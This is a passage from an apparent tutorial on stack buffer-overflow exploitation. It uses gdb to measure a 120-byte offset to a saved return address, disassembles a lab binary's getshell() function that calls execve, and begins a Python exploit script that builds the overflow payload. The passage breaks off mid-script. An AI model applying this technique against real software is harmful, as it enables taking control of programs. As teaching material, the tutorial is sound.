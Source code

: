 * In 32-bit process, you should find this address at top of the stack. Because arguments are passed using the stack in 32-bit processes. 

* Their difference should give us how much junk we need to load. 

* Buffer's address - ReturnAddress's Stack Address = **0x7fffffffd970 - 0x7fffffffd9e8** = **-120**. So, **junk_length = 120 bytes**. Note that you can get a different junk length. It depends on the compiler. 

* Along with that, let us find out ```getshell()```'s address. 

	```
	gdb-peda$ disass getshell 
	Dump of assembler code for function getshell:
	0x00000000004005b6 <+0>:	push   rbp
	0x00000000004005b7 <+1>:	mov    rbp,rsp
	0x00000000004005ba <+4>:	mov    edi,0x400694
	0x00000000004005bf <+9>:	call   0x400470 <puts@plt>
	0x00000000004005c4 <+14>:	mov    edx,0x0
	0x00000000004005c9 <+19>:	mov    esi,0x0
	0x00000000004005ce <+24>:	mov    edi,0x4006a8
	0x00000000004005d3 <+29>:	call   0x400490 <execve@plt>
	0x00000000004005d8 <+34>:	nop
	0x00000000004005d9 <+35>:	pop    rbp
	0x00000000004005da <+36>:	ret    
	End of assembler dump.
	gdb-peda$
	```

* **getshell_address = 0x00000000004005b6** 

* Let us start writing the exploit script - **exploit1.py**

* Let us write a function **exploit**. 

	```python
	def exploit() : 

		# Open up gdb or a tool you are comfortable with and find this. 
    	# junk_length = buffer's starting address - ReturnAddress's stack address
		junk_length = 120

		# The variable where complete payload is stored.
		payload = bytes()

		# Initial payload
		# Gap between points A and B
		payload = b'a' * junk_length
